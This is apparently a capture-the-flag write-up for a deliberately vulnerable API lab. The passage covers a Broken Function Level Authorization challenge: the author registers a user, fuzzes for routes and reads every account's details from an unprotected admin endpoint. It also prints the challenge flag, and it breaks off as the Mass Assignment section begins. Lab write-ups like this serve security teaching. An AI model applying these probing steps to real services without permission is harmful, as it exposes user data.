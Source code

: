 ## API 5 [Broken Function Level Authorization]
> You can register yourself as a User. Thats it or is there something more? (I heard admin logins often but uses different route)

First, we create a user account by doing a POST request:

```json
Request => "POST http://{{host}}/vapi/api5/user"
{
    "username":"user",
    "password":"pass",
    "name":"John Doe",
    "address":"ABC",
    "mobileno":"9999999999"
}
Response =>
{
    "username": "user",
    "name": "John Doe",
    "address": "ABC",
    "mobileno": "9999999999",
    "id": 7
}
```
To retrieve the user's account details, we do the following request:

```json
Request => "GET http://{{host}}/vapi/api5/user/2"
Response =>
{
    "id": 2,
    "username": "user",
    "name": "John Doe",
    "address": "ABC",
    "mobileno": "9999999999"
}
```

It was mentioned above in the description that admins often use different routes. We can fuzz for possible endpoints:

![[5-fuzz-endpoints.png]]

The endpoint `/vapi/api5/users` looks promising. Let's send the request on our Postman client with the proper authorization headers.

![[flag5.png]]

We get all the users' details along with the admin user's account details which contain our flag 5: `flag{api5_76dd990a97ff1563ae76}`.

---

## API 6 [Mass Assignment]
>Welcome to our store , We will give you credits if you behave nicely. Our credit management is super secure
